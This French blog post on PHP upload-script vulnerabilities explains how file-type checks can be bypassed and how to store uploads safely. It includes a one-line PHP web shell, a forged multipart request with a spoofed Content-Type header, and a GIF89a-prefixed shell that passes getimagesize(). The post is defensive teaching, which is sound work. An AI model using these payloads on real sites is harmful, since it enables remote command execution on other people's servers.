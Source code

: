 ```yaml
---
title: "PHP : Les dangers des scripts d'upload"
tags: [vulnérabilité, PHP]
---
```


PHP et la sécurité, c'est un peu comme un vieux couple qui passerait son temps à s'envoyer de la vaisselle à la figure : ils arrivent toujours à trouver un sujet de discorde.  
PHP est à la portée de tous... et c'est peut-être ça le problème : on peut faire n'importe quoi avec et surtout rien n'empêche de le faire mal.  

Ce langage est un hybride du shell (variables commençant par le symbole dollar, pas de déclaration de types, très souple) et du C (auquel il n'a malheureusement pris que certains mots clés).  
La logique veut que si PHP soit si simple à utiliser alors il est certes très facile de faire n'importe quoi, mais aussi, ce ne doit pas être bien compliqué de faire de belles choses.  

Par conséquent, le maillon faible de la sécurité de PHP reste principalement le programmeur.  

Toutefois, certaines fonctionnalités de PHP ne viennent pas arranger les choses. Comme on dit, *"It's not a bug, it's a feature."*  

Quand j'ai découvert PHP et sa capacité à inclure des scripts distants (par la fonction `include()` et compagnie), j'ai certainement réagi comme la plupart du monde en disant *"Naaaaan ! Ils n'ont pas fait ça ?!"*  

Je veux bien croire que la lecture d'informations depuis un autre serveur peut-être utile, par exemple pour aller chercher des news sur un site (c'était l'avant-AJAX), mais de là à permettre l'exécution de code il y a un pas qu'il ne fallait mieux ne pas franchir.  

D'ailleurs il ne me semble pas avoir vu jusqu'à présent d'applications ayant recours à l'inclusion distante, seuls les pirates semblent réellement apprécier cette fonctionnalité.  

L'autre ~~gros bug~~ fonctionnalité de PHP concernait l'initialisation des variables : avec l'option `register_globals` activée par défaut, on laissait l'internaute initialiser nos variables à notre place. On se demande où ce cher Rasmus avait la tête.  

Peut-être pensait-il que cela inciterait les développeurs à être plus vigilants... évidemment ce ne fut pas le cas et l'option est maintenant désactivée par défaut.  

Plusieurs mécanismes de sécurité ont été mis en place *par dessus* pour tenter de corriger les erreurs, comme le `safe_mode`. Malheureusement quand ce ne sont pas les développeurs qui sont fautifs, c'est le langage lui-même. PHP a un très lourd passif en termes de failles de sécurité et des méthodes permettant de passer au travers du `safe_mode` sont découvertes régulièrement.  

Pour certaines failles, on peut se demander à qui incombe la responsabilité : PHP ou le programmeur ?  
Les failles relatives à l'upload de fichier en font partie. Les scripts permettant à l'internaute d'envoyer un fichier sur le serveur sont souvent mal pensés, reposent sur des à-priori et sont la plupart du temps faillibles. C'est pour cela que [Wapiti](http://wapiti.sourceforge.net/) informe automatiquement quand il en trouve un, même s'il ne peut pas tester leur sécurité.  

Parmi les grosses erreurs de programmation, on peut trouver :  

* la possibilité pour l'internaute de choisir le répertoire de destination
* la possibilité d'écraser un fichier existant
* un manque de vérification sur la nature du fichier (voire pas de vérifications du tout)

Il est évident que plus on laisse de pouvoir à l'internaute, plus les possibilités d'attaque sont nombreuses. Mais même avec certaines vérifications un script peut malgré tout être exploitable.  

Une recherche par Google sur les mots clés _upload php_ nous renvoi [un premier article](http://phpcodeur.net/articles/php/upload) proposant un script d'upload.  

La seule vérification qui est faite porte sur la nature du fichier et correspond aux lignes suivantes :  

```php
// on vérifie maintenant l'extension
$type_file = $_FILES['fichier']['type'];

if( !strstr($type_file, 'jpg') && !strstr($type_file, 'jpeg') && !strstr($type_file, 'bmp') && !strstr($type_file, 'gif') )
{
  exit("Le fichier n'est pas une image");
}
```

Si je crée un fichier `test.php` dont le contenu est le suivant :  

```php
<?php
        system($_GET['cmd']);
?>
```

Et que j'essaye de l'uploader sur le serveur, j'obtiens le message *"Le fichier n'est pas une image"*, la vérification sur le type de fichier a fonctionné.  
Mais regardons de plus près d'où viens la variable `$_FILES['fichier']['type']` : le tableau `$_FILES` est généré à partir de la requête HTTP envoyée par le navigateur.  
Si j'utilise un sniffeur comme [Ethereal](http://www.ethereal.com/) je peux récupérer la requête en question et l'analyser. Voici ce que j'obtiens (j'ai retiré le superflu) :  

```http
POST /vuln/upload.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 314
Content-Type: multipart/form-data; boundary=----------hS7LOLpAKgp2vmwz0gmmrP

------------hS7LOLpAKgp2vmwz0gmmrP
Content-Disposition: form-data; name="fichier"; filename="test.php"
Content-Type: application/octet-stream

<?php
        system($_GET['cmd']);
?>

------------hS7LOLpAKgp2vmwz0gmmrP
Content-Disposition: form-data; name="upload"

Uploader
------------hS7LOLpAKgp2vmwz0gmmrP--
```

On retrouve le nom du fichier, son contenu, ainsi qu'un type `application/octet-stream` pour l'entête `Content-Type`.  
Maintenant je modifie la requête en remplaçant cet entête par `Content-Type: image/jpeg`.

Si j'envoie cette nouvelle requête au serveur (avec netcat par exemple), mon fichier `test.php` est accepté et je peux l'appeler avec l'url <http://localhost/vuln/upload/test.php.>  

Regardons un autre script. Toujours par Google, prenons [le quatrième](http://www.vulgarisation-informatique.com/upload-php.php). Cette fois la vérification de la nature du fichier ne se fait plus par le tableau `$_FILES` mais par la fonction php [getimagesize](http://fr.php.net/getimagesize).  

Quand le fichier est une image cette fonction renvoi un tableau indiquant les dimensions de l'image ainsi que son type sous la forme d'un entier. Un type de 1 correspond à un fichier gif, 2 un jpg, 3 un png... Si le fichier n'est pas une image, la fonction renvoi `FALSE` et le script échouera.  

Ici pour faire passer mon fichier php je n'ai pas beaucoup de choix : il doit être reconnu comme étant une image. La vérification du type de fichier est ici relative au format du fichier, par exemple sur les entêtes du fichier.  

Un fichier image gif commence toujours par les mêmes caractères : `GIF89a`  
Il me suffit alors de créer un fichier cmd.php dont le contenu est le suivant :  

```php
GIF89a<?php system($_GET['cmd']); ?>
```

et le tour est joué... je n'ai même pas besoin de forger moi-même la requête, il suffit d'envoyer le fichier normalement à l'aide du navigateur.  

Il faut noter que cette méthode ne semble pas fonctionner sur le format JPG qui est bien plus complexe. Il est pourtant simple de créer un fichier JPG avec du PHP dedans puisque ce format autorise l'insertion de commentaires. Mais PHP ne parvient pas à interpréter les fichiers générés.  

Tout cela nous montre qu'il est difficile de vérifier qu'un fichier est bien ce qu'il prétend être. La principale solution est tout bêtement de fixer l'extension du fichier uploadé quand cela est possible afin d'empêcher son exécution par le pirate.  

Mais même avec une extension `.gif` un fichier peut être dangereux : si un script permet d'inclure localement l'image du pirate alors PHP exécutera les commandes sans se poser la moindre question.  

La solution qui me semble la plus efficace est de stocker les fichiers dans un répertoire en dehors de la racine web.  

Une base de données doit pour cela stocker le chemin réel du fichier ainsi qu'un identifiant représentant le fichier. Il ne reste plus qu'à créer un fichier `download.php` qui récupère l'identifiant, en déduit le chemin vers le fichier sur le serveur, renvoi certains entêtes pour forcer le téléchargement et effectue un `readfile()` pour envoyer le contenu du fichier.  

Beaucoup de forums proposant l'upload d'avatars sont vulnérables à ces attaques. Ici on ne souhaite pas forcer le téléchargement, mais bien afficher l'image. On peut néanmoins utiliser une technique similaire qui renverrait les informations nécessaires dans les entêtes HTTP (obtenues à l'aide de `getimagesize()` par exemple) puis effectuerait aussi un `readfile()`.  

L'URL des images ressemblerait alors à <http://serveur/image.php?avatar=XXX>  
De plus on peut en profiter pour mettre des vérifications supplémentaires pour empêcher le hotlinking des images, un système de compteurs pour les téléchargements... bref que du bon.  

Je vous laisse une url qui explique comment mettre en place un tel système : <http://www.siteduzero.com/tuto-3-1718-1-upload-de-fichiers-par-formulaire.html>  

Bonne retouche de code ;-)  

PS : A une époque, il était même possible de remonter l'arborescence du serveur et choisir le répertoire pour l'upload en modifiant la partie *"filename"* d'une requête HTTP... Heureusement la faille a été corrigée.

*Published January 06 2011 at 13:41*
